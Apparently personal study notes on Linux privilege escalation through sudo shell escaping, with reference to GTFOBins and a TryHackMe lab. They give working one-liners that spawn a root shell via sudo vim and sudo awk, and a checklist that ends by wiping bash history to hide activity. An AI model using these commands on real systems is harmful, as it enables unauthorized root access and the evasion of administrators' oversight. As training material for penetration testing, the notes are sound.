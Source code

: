 When we have the possibility to run commands as `sudo` on the system it could be possible to pop an interactive shell as `root` leveraging on the command itself. This is called Sudo Shell Escaping.


**==In order to see which commands we can run as `sudo` we can run this command:==**
```bash
sudo -l
```
- ![[Pasted image 20250116152659.png]]

*For example in this case we can run as `sudo` the command `vim`*


# GTFOBins

<mark style="background: #BBFABBA6;">This is an important tool used to perform this privilege escalation technique</mark>
-  [https://gtfobins.github.io/](https://gtfobins.github.io/)

<mark style="background: #FF5582A6;">This is the most important one!</mark>

In this case we search for the command `vim` under the `sudo` section:
- ![[Pasted image 20250116152850.png]]
- ![[Pasted image 20250116152908.png]]

So we just need to run:
```bash
sudo vim -c ':!/bin/sh'
```
- ![[Pasted image 20250116152945.png]]
- and we got the root shell



Also with `awk` is possible in this case:
```bash
sudo awk 'BEGIN {system("/bin/bash")}'
```
- ![[Pasted image 20250116153144.png]]
- ![[Pasted image 20250116153208.png]]



# TryHackMe resource for linux privesc

This resource is very useful to test for privilege escalation in different ways:
- [https://tryhackme.com/room/privescplayground](https://tryhackme.com/room/privescplayground)

# STEP TO PERFORM

- [ ] **List commands we can run as sudo**
- `sudo -l`

- [ ] **Search in GTFOBins as `SUDO`**
- [https://gtfobins.github.io/](https://gtfobins.github.io/)

- [ ] **Execute the commands given by GTFOBins**

- [ ] **Clean the history**
- `echo "" > ~/.bash_history`